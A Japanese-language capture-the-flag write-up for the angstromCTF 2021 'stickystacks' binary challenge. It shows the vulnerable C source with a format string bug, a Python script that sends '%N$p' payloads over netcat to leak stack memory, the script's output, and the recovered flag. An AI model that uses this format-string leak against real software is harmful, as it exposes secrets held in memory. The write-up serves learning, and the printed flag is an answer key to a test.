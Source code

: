 # stickystacks:Binary:90pts
I made a [program](stickystacks) that holds a lot of secrets... maybe even a flag!  
[Source](stickystacks.c)  
Connect with `nc shell.actf.co 21820`, or visit `/problems/2021/stickystacks` on the shell server.  
Hint  
Is that what `printf` is for?  

# Solution
配布されたstickystacks.cを見ると以下のようであった。  
```C
~~~
typedef struct Secrets {
    char secret1[50];
    char password[50];
    char birthday[50];
    char ssn[50];
    char flag[128];
} Secrets;


int vuln(){
    char name[7];
    
    Secrets boshsecrets = {
        .secret1 = "CTFs are fun!",
        .password= "password123",
        .birthday = "1/1/1970",
        .ssn = "123-456-7890",
    };
    
    
    FILE *f = fopen("flag.txt","r");
    if (!f) {
        printf("Missing flag.txt. Contact an admin if you see this on remote.");
        exit(1);
    }
    fgets(&(boshsecrets.flag), 128, f);
    
    
    puts("Name: ");
    
    fgets(name, 6, stdin);
    
    
    printf("Welcome, ");
    printf(name);
    printf("\n");
    
    return 0;
}
~~~
```
自明なFSBがある。  
あとはstackを読み取ればよいが6文字限定の入力のようだ。  
%n$pで任意の箇所が読み取れることが知られている。  
以下のstackleak.pyでスタックを読み取り、文字へ変換する。  
```python:stackleak.py
import re
import subprocess

i = 1
while True:
    result = subprocess.check_output(f"echo '%{i}$p' | nc shell.actf.co 21820", shell=True)
    if not (b"nil" in result):
        result = result.replace(b"Name: \nWelcome, ", b"").replace(b"\n", b"")
        result = result.replace(b"0x", b"").decode()[::-1]
        result = re.split('(..)', result)[1::2]
        for j in result:
            print(chr(int(j[::-1], 16)), end="")
        if "d7" in result:# 0x7d = }
            break
    i += 1
```
実行する。  
```bash
$ python3 stackleak.py
0$Ö`ÿ rÇCTFs are fun!password1231/1/1970123-456-7890actf{well_i'm_back_in_black_yes_i'm_back_in_the_stack_bec9b51294ead77684a1f593}
```
flagが得られた。  

## actf{well_i'm_back_in_black_yes_i'm_back_in_the_stack_bec9b51294ead77684a1f593}